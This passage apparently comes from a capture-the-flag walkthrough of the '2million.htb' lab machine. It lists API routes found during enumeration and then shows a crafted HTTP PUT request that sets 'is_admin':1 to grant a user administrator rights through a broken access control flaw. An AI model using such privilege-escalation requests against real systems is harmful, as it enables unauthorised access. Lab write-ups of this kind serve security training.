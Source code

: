 ```
        "user":{
            "GET":{
                "\/api\/v1":"Route List",
                "\/api\/v1\/invite\/how\/to\/generate":"Instructions on invite code generation",
                "\/api\/v1\/invite\/generate":"Generate invite code",
                "\/api\/v1\/invite\/verify":"Verify invite code",
                "\/api\/v1\/user\/auth":"Check if user is authenticated",
                "\/api\/v1\/user\/vpn\/generate":"Generate a new VPN configuration",
                "\/api\/v1\/user\/vpn\/regenerate":"Regenerate VPN configuration",
                "\/api\/v1\/user\/vpn\/download":"Download OVPN file"
            },
            "POST":{
                "\/api\/v1\/user\/register":"Register a new user",
                "\/api\/v1\/user\/login":"Login with existing user"
                }
            },
        "admin":{
            "GET":{
                "\/api\/v1\/admin\/auth":"Check if user is admin"
            },
            "POST":{
                "\/api\/v1\/admin\/vpn\/generate":"Generate VPN for specific user"
            },
            "PUT":{
                "\/api\/v1\/admin\/settings\/update":"Update user settings"
            }
        }
    }
}
```

Following the analysis of the API endpoint usage and send the following HTTP PUT request to update account settings.

```
PUT /api/v1/admin/settings/update HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://2million.htb/home/access
Cookie: PHPSESSID=4tp5nnab10jbup76o6cf138vng
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/json
Content-Length: 83

{
    "email": "ap3zzi@2million.htb",
    "loggedin":true,
    "username":"ap3zzi",
    "is_admin":1
}
```
